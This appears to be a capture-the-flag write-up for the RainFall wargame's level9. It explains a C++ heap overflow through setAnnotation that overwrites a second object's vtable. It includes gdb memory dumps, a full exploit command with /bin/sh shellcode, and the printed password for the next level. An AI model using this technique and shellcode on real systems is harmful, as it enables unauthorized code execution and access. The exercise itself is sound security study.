 
# Analysis of the Binary

After extracting the source code from the binary, we analyze key components:

## Key Observations
- The program uses a class (`N`) with a vulnerable `setAnnotation` function and virtual functions, indicating a vtable.
- The first virtual function is called on the second object, presenting an opportunity for exploitation.

# Understanding Memory Layout

Using `ltrace`, we can find the memory addresses of objects:

```bash
level9@RainFall:~$ ltrace ./level9 test
[...]
_Znwj(108, 0xbffff7e4, 0xbffff7f0, 0xb7d79e55, 0xb7fed280)                                      = 0x804a008
_Znwj(108, 5, 0xbffff7f0, 0xb7d79e55, 0xb7fed280)                                               = 0x804a078
[...]
```
- `_Znwj` is the memory allocation function for objects.
- The addresses `0x804a008` and `0x804a078` are allocated for two objects, with a difference of 112 bytes.

We assume the following memory layout for each object: `[vtable (4 bytes)] [annotation (100 bytes)] [value (4 bytes)] [padding (4 bytes)]`.

# Exploit Development

The goal is to overwrite the vtable of the second object to manipulate the virtual function call.

## Steps for Exploitation
1. Use `setAnnotation` to overflow the first object and reach the second object's vtable.
2. Replace the vtable entry with a function pointer of our choice, like a shellcode address.

## Offset Calculation
- The offset to reach the second object from the first is 112 bytes.
- To overwrite the vtable of the second object, we need to write 108 bytes into the first object's annotation.
- We can then replace the vtable pointer.

```bash
(gdb) break _ZN1N13setAnnotationEPc
Breakpoint 1 at 0x8048714
(gdb) run `python -c 'print("A" * 112)'`
Starting program: /home/user/level9/level9 `python -c 'print("A" * 112)'`

Breakpoint 1, 0x08048714 in N::setAnnotation(char*) ()
(gdb) x/56wx 0x804a008
0x804a008:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a018:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a028:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a038:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a048:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a058:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a068:      0x00000000      0x00000000      0x00000005      0x00000071
0x804a078:      0x08048848      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
(gdb) step
Single stepping until exit from function _ZN1N13setAnnotationEPc,
which has no line number information.
0x0804867c in main ()
(gdb) x/56wx 0x804a008
0x804a008:      0x08048848      0x41414141      0x41414141      0x41414141
0x804a018:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a028:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a038:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a048:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a058:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a068:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a078:      0x41414141      0x00000000      0x00000000      0x00000000
0x804a088:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a098:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c8:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0d8:      0x00000000      0x00000000      0x00000006      0x00020f21
```

## Creating a Fake Vtable
Construct a fake vtable structure: `[fake function (shellcode address)] => [shellcode]`.

## Executing the Exploit

Construct the payload as follows:
- `[shellcode address] [shellcode] [padding to reach 108 bytes] [fake vtable address]`.

The exploit command:

```bash
$ ./level9  `python -c 'print("\x08\x04\xa0\x10"[::-1] + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + "A" * 83 + "\x08\x04\xa0\x0c"[::-1])'`
```

This command:
- Sends a payload with a shellcode.
- Overwrites the vtable of the second object.
- Triggers the execution of the shellcode when the virtual function is called.

Result:

```plaintext
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

The exploit successfully manipulates the memory layout, leading to unauthorized access.
